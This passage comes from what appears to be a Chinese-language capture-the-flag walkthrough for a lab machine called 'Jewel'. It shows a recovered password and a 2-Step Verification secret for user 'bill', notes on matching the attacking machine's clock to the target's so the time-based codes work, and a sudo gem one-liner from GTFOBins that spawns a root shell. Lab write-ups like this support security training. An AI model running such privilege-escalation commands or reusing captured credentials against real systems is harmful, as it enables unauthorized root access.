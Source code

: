 `spongebob`

![]({{ site.url }}/assets/Jewel_211.assets/2020-11-09-23-57-16.png)

![]({{ site.url }}/assets/Jewel_211.assets/2020-11-10-00-01-53.png)

Google 2-Step Verification

`2UQI3R52WFCLE6JTLDCSJYMJH4`

![]({{ site.url }}/assets/Jewel_211.assets/2020-11-10-00-04-51.png)

![]({{ site.url }}/assets/Jewel_211.assets/2020-11-10-00-05-47.png)

![]({{ site.url }}/assets/Jewel_211.assets/2020-11-10-00-06-15.png)

`bill:2UQI3R52WFCLE6JTLDCSJYMJH4`

![]({{ site.url }}/assets/Jewel_211.assets/2020-11-10-00-07-53.png)

会和所有两部验证一样，出现定时更换的验证码

sudo -l 之后输入密码和验证码

![]({{ site.url }}/assets/Jewel_211.assets/2020-11-10-00-09-39.png)

这里如果出现错误，则是时间同步问题，因为两部验证是基于时间的。所以需要同步服务器和攻击机的时间

靶机使用`timedatectl`查看时区和时间

kali端则使用`sudo timedatectl set-timezone xxxxx`设置时区。

然后使用`sudo date --set xx:xx:xx`设置时间。

靶机与kali一致后则能正常同步验证。网速要考虑在内


`/usr/bin/gem`

gtforbins

`https://gtfobins.github.io/gtfobins/gem/`

```bash
sudo /usr/bin/gem open -e "/bin/sh -c /bin/sh" rdoc
```

![]({{ site.url }}/assets/Jewel_211.assets/2020-11-10-00-14-02.png)

